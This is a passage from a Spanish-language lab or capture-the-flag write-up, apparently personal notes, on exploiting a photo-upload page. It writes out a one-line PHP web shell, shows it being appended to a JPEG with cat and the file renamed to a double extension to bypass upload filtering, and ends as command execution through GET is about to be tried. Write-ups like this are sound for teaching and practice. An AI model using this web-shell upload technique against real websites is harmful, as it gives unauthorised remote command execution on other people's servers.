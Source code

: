 >Probamos a subir una imagen de tamaño menor a 60KB 


![[Pasted image 20250619155711.png]]

![[Pasted image 20250619155826.png]]

![[Pasted image 20250619155850.png]]

>Efectivamente la foto se subió correctamente, comprobamos que esta en /photos.php

![[Pasted image 20250619155954.png]]

>Comprobamos que la foto esta en /photos.php y que se le ha asignado el nombre 10_10_14_49.jpeg que es nuestra ip cambiando 
>" . " por " _ " 
>

## Inyección de código en fotografía

### Creamos archivo php con shell

```php
php

<?php system($_GET['cmd']); ?>

```

![[Pasted image 20250619160258.png]]

### inyectamos la shell en la imagen

```bash
cat shell.php >> camel1.jpeg
```

![[Pasted image 20250619160504.png]]

>Cambiamos el nombre de la foto para que tenga el .php

```bash
mv camel1.jpeg camel1.php.jpeg
```

![[Pasted image 20250619160533.png]]

### Subimos la foto a la web

>Igual que antes vamos a /upload.php subimos la foto y comprobamos que esta en /photos.php

![[Pasted image 20250619160709.png]]

### Tratamos de ejecutar comandos por GET
